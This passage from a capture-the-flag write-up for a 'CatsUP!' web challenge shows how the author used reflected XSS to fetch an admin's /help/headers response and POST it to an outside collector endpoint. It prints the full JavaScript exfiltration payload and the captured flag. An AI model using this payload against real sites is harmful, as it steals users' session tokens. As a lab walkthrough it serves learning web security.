 
<p>After I got my session I had to find a token that was not in the cookie. I connected the dots quite fast because of that robot.txt at the start,all what I had to do was to modify my script a little bit in a way that will cause the reflect XSS. So it is actually quite simple, admin is logged in with token and session, we know that <b><i>/help/headers</i></b> was giving info about user who is making request in that case it was me, now we just need to make GET request to that path in the context of an admin and exfiltrate data. 
<br></br>Here is my modified script:</p>

```javascript
(async function(){
   let url = "http://localhost/help/headers";
   let h = await fetch(url);
   let t = await h.text();
   let data = await fetch("https://62e48ff7-bed8-46ee-91d5-b51fff6486cf.idocker.vuln.land/debug",{
        method:"POST",
        body: t
   })
})()
```

<p>Checked the captured request and I got my token/second flag: </p>

<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/CatsUP!%20Image%20sharing%20service/screenshots/Bnd_second_flag.png" />

<b>#2 FLAG: <i>HL{r3fl3cted_c4t_p1ck1ng}</i></b>



